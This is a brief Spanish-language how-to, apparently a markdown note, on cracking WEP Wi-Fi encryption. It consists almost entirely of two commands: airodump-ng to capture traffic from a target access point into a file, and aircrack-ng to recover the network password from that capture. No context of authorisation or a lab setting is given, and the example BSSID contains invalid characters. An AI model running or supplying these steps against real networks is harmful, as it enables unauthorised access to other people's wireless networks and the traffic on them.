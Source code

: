 # Descifrar el cifrado WEP

## Pasos para descifrar WEP

Realizar la captura de datos de la red

```
airodump-ng -c 6 --bssid 55:LE:D2:42:23:50 -w crackwep wlan0
```

Los datos capturados estarán en crackwep,ese archivo vamos a usarlo para descifrar la password con el siguiente comando.

```
aircrack-ng crackwep.cap
```

Una vez terminado se obtiene la password.
